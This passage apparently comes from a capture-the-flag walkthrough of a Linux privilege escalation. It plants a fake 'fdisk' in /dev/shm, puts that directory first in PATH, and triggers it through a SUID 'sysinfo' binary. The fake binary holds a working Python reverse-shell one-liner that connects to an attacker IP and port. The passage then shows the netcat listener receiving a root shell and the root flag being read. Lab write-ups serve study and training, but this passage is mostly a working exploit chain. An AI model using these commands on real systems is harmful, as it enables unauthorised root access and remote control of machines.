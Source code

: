 
2. Find where fdisk is located using fdisk, to see if we can do some simple PATH hijacking.

    theseus@ubuntu:/dev/shm$ which fdisk
      /sbin/fdisk

    theseus@ubuntu:/dev/shm$ echo $PATH | tr ":" "\n" | nl
       1	/usr/local/sbin
       2	/usr/local/bin
       3	/usr/sbin
       4	/usr/bin
       5	/sbin
       6	/bin
       7	/usr/games
       8	/usr/local/games
       9	/snap/bin

     /sbin is only on position 5, however none of the above directories is writable from Theseus.


3. Modify PATH and place your own, malicious, fdisk program.

    theseus@ubuntu:/dev/shm$ export PATH=/dev/shm:$PATH
    theseus@ubuntu:/dev/shm$ echo $PATH | tr ":" "\n" | nl
     1  /dev/shm
     2	/usr/local/sbin
     3	/usr/local/bin
     4	/usr/sbin
     5	/usr/bin
     6	/sbin
     7	/bin
     8	/usr/games
     9	/usr/local/games
     10	/snap/bin

   theseus@ubuntu:/dev/shm$ cat fdisk
     python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",4499));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


4. Run /bin/sysinfo to trigger your malicious file and get a root-shell.

    theseus@ubuntu:/dev/shm$ /bin/sysinfo

    root@nidus:/opt/shells# nc -lvnp 4499
      listening on [any] 4499 ...
      connect to [10.10.14.11] from (UNKNOWN) [10.10.10.185] 38338
      # whoami
        root
      # cat /root/root.txt
        a69ddb35ff2bf4ada26508463f841344

